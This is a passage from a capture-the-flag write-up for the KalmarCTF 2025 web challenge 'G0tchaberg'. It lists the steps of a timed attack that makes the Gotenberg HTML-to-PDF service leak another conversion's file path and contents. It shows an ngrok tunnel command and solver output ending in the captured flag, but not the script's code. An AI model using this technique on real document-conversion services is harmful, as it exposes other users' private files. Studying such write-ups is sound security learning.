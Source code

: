 ## Exploitation

Armed with above information, we can follow these steps to read the flag:
1. Send the these 2 requests:
    - First, convert our HTML file into PDF with 6 seconds delay leaking the correct flag path (6 seconds is because we can make sure the flag conversion process must be in the ready queue.)
    - Then, convert our HTML file into PDF with ~20 seconds delay reading the flag conversion's `index.html` file (If the delay is more than 30 seconds, Gotenberg will time out the process. And the ~20 seconds delay is to give yourself more time to provide the correct path.)
2. After finishing the first request, we immediately extract the text from the PDF file and get the correct flag path
3. Provide the correct flag path in our web server
4. Wait for the second request finished, and read the converted PDF file's flag

To automate the above steps, I've written the following Python solve script:

<details><summary><strong>solve.py</strong></summary></details>

<details><summary><strong>index.html</strong></summary></details>

```shell
┌[siunam♥Mercury]-(~/ctf/KalmarCTF-2025/web/G0tchaberg)-[2025.03.12|20:56:01(HKT)]
└> ngrok tcp 5000
[...]
Forwarding                    tcp://0.tcp.ap.ngrok.io:14502 -> localhost:5000                               
[...]
```

```shell
┌[siunam♥Mercury]-(~/ctf/KalmarCTF-2025/web/G0tchaberg)-[2025.03.12|20:56:15(HKT)]
└> python3 solve.py
 * Serving Flask app 'solve'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:5000
 * Running on http://192.168.3.203:5000
Press CTRL+C to quit
127.0.0.1 - - [12/Mar/2025 20:56:18] "GET /flag?path=undefined HTTP/1.1" 200 -
127.0.0.1 - - [12/Mar/2025 20:56:19] "GET /flag?path= HTTP/1.1" 200 -
127.0.0.1 - - [12/Mar/2025 20:56:20] "GET /flag?path= HTTP/1.1" 200 -
127.0.0.1 - - [12/Mar/2025 20:56:21] "GET /flag?path= HTTP/1.1" 200 -
127.0.0.1 - - [12/Mar/2025 20:56:22] "GET /flag?path= HTTP/1.1" 200 -
[+] Current conversion UUID: 310f447e-eb2c-4af2-b881-99a03c8c2f7f
[*] Possible flag UUID: ae16d4c7-9ec8-4702-b682-caf7715ca2a5 | Date: 2025-03-12 12:56:20
[*] Possible flag UUID: c4d72581-6a9f-44c7-8f30-add862d99291 | Date: 2025-03-12 12:56:17
[*] Selected UUID that has the latest modification date, as it is most likely is the flag process: ae16d4c7-9ec8-4702-b682-caf7715ca2a5
127.0.0.1 - - [12/Mar/2025 20:56:24] "GET /flag?path=undefined HTTP/1.1" 200 -
127.0.0.1 - - [12/Mar/2025 20:56:25] "GET /flag?path=ae16d4c7-9ec8-4702-b682-caf7715ca2a5 HTTP/1.1" 200 -
127.0.0.1 - - [12/Mar/2025 20:56:26] "GET /flag?path=ae16d4c7-9ec8-4702-b682-caf7715ca2a5 HTTP/1.1" 200 -
127.0.0.1 - - [12/Mar/2025 20:56:27] "GET /flag?path=ae16d4c7-9ec8-4702-b682-caf7715ca2a5 HTTP/1.1" 200 -
[-] Unable to find the flag. Maybe we embeded the wrong flag path. Or, the PDF to text is messed up. Here's the converted text:
/tmp/3b7a0869-2137-4b1 1-a5ac-e51f7fe37e8b/c4d72581-6a9f-44c7-8f30-add862d99291/index.html
Very private information!
kalmar{g0tcha!_well_done_that_was_fun_wasn't_it?
_we_would_appr eciate_if_you_cr eate_a_ticket_with_your_solution}
```
